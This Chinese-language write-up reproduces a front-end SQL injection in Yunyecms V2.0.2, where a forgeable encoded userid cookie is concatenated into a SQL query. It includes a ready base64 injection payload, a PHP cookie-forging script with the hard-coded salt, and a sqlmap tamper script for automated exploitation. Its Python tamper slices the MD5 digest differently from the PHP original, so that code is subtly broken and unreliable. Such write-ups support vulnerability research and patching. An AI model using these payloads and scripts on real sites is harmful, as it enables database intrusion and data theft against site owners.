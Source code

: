 Yunyecms V2.0.2 前台注入漏洞（二）
==================================

一、漏洞简介
------------

云业CMS内容管理系统是由云业信息科技开发的一款专门用于中小企业网站建设的PHP开源CMS，可用来快速建设一个品牌官网(PC，手机，微信都能访问)，后台功能强大，安全稳定，操作简单。

二、漏洞影响
------------

yunyecms 2.0.2

三、复现过程
------------

问题出现在前台`me***.php`文件中，自定义表单customform中的userid从cookie中获取，截取一段数据包可以看到cookie的userid如下：

![](./resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId24.png)

经过了加密处理，根据解密算法**yunyecms\_strdecode**可以在corefun.php找到对应的加解密算法

![](./resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId25.png)

因为cookie里的userid可控因此我们根据算法流程我们可以在cookie中伪造userid值。还是用刚刚以上截取的userid测试。

![](./resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId26.png)

可以看到真实的userid为9。构造一个SQL注入，生成如下payload：

![](./resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId27.png)

    YmM0OWM5ZWY1ODk5ZGRkNzM0T1NjZ1lXNWtJSE5zWldWd0tEVXA4ZDdlNzk5NTliNDQyYTI1ZDE0ZWUzODZmZDI4MzY5OTM0YQ==

payload生成代码front-test.php为：

    <?php
    function yunyecms_strencode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
        return base64_encode(substr(md5($salt),8,18).base64_encode($string).substr(sha1($salt),0,35));
    }
    function yunyecms_strdecode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
        $retstr=base64_decode($string);
        $SHA1salt=substr(sha1($salt),0,35);
        $md5salt=substr(md5($salt),8,18);
        $retstr=substr($retstr,strlen($md5salt));
        $retstr=substr($retstr,0,(strlen($retstr)-strlen($SHA1salt)));
        return base64_decode($retstr);
    }
    if ($_GET['cookie']) {
        $string=$_GET['cookie'];
        $userid=yunyecms_strdecode($string);
        echo $userid;
    }
    if($_GET['userid']){
        $string=$_GET['userid'];
        $cookie=yunyecms_strencode($string);
        echo $cookie;
    }

继续追溯可控的userid,可以看到userid经过步骤`3->4->5`传递到了pagelist函数中

![](./resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId28.png)

跟入pagelist函数，将\$where拼接到了sql查询语句中\$sqlcnt,然后交给了前几次SQL注入都出现的SQL查询函数**GetCount**中。

![](./resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId29.png)

详细查看下该函数，直接进行了sql查询。

![](./resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId30.png)

附上截

![](./resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId31.png)

手工有点麻烦，又想丢入sqlmap怎么办，由于userid经过了加密和编码处理，于是根据算法流程写一个tamper就可以很好的解决了，

![](./resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId32.png)

对应tamper的的脚本为

    yunyecms_front_sqli_tamp.py
    #!/usr/bin/env python

    """
    Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
    See the file 'LICENSE' for copying permission
    """

    import base64
    import hashlib
    from lib.core.enums import PRIORITY
    from lib.core.settings import UNICODE_ENCODING

    __priority__ = PRIORITY.LOW

    def dependencies():
        pass

    def md5(data):
        hash_md5 = hashlib.md5(data)
        md5data=hash_md5.hexdigest()[8:18]
        return md5data
    def sha1(data):
        string_sha1=hashlib.sha1(data).hexdigest()[0:35]
        return string_sha1

    def yunyecms_strencode(string):
        salt='~^y#u%n$y^e*c%m^s^~'
        return base64.b64encode(md5(salt)+base64.b64encode(string)+sha1(salt))
    def tamper(payload, **kwargs):
        """
        Base64-encodes all characters in a given payload

        >>> tamper("1' AND SLEEP(5)#")
        'MScgQU5EIFNMRUVQKDUpIw=='
        """

        return yunyecms_strencode(payload) if payload else payload
